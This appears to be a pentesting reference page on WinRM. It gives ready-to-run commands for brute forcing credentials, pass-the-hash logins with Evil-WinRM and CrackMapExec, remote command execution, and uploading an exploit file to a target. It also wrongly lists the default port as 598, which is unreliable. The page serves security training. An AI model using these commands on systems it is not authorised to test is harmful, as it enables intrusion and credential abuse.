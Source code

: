 ```yaml
---
title: Windows Remote Management (WinRM) Pentesting
desc: Default port is 598, 5986.
tags: [598, 5986, CrackMapExec, Windows, WinRM]
alts: [Privilege-Escalation-Windows]
render_with_liquid: false
---
```


## 1. Enumeration

1. **Brute Force Credentials**

    1. **Use CrackMapExec**

        ```sh
        cd crackmapexec
        poetry run crackmapexec winrm <target-ip> -d DomainName -u usernames.txt -p passwords.txt
        ```

    2. **Use Metasploit**

        ```sh
        msfconsole
        msf > use auxiliary/scanner/winrm/winrm_login
        ```

<br />

## 2. Connect and Exploit

1. **Use Evil-WinRM**

    **[Evil-WinRM](https://github.com/Hackplayers/evil-winrm){:target="_blank"}** is a Windows Remote Management shell for pentesting.

    1. **Connect**

        ```powershell
        # Evil-WinRM
        evil-winrm -i <target-ip> -P 5986 -u username -p password
        # Pass The Hash (-H)
        evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc
        # PowerShell Local Path (-s)
        evil-winrm -i <target-ip> -u username -p password -s /opt/scripts
        ```

        If you have private key and public key, you can use them for authentication.

        ```sh
        # -S: SSL
        # -k: private key
        # -c: public key
        evil-winrm -i <target-ip> -S -k private.key -c public.key
        ```

    2. **File Transfering**

        After connecting, you can use a lot of useful commands to exploit.

        ```powershell
        # Upload a local file to Windows machine
        PS> upload ./example.bat c:\\Users\Administrator\Desktop\exploit.bat

        # Download a file to local
        PS> download c:\\Users\Administrator\Desktop\example.txt ./example.txt
        ```

2. **Use CrackMapExec**

    **[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec){:target="_blank"}** is a swiss army knife for pentesting networks.  
    The official docs says that it's recommended to use it via **Poetry** which is a Python package manager.  

    First off, move to the directory in which the CrackMapExec installed and run **poetry install**.

    ```sh
    cd crackmapexec
    poetry install
    ```

    Then execute with **poetry run**.

    ```sh
    # Login and CMD execution (-x)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -x 'whoami'
    # Login and PowerShell execution (-X)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -X '$PSVersionTable'

    # Pass the Hash and CMD execution (-x)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -x 'whoami'
    # Pass the Hash and PowerShell execution (-X)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -X '$PSVersionTable'
    ```
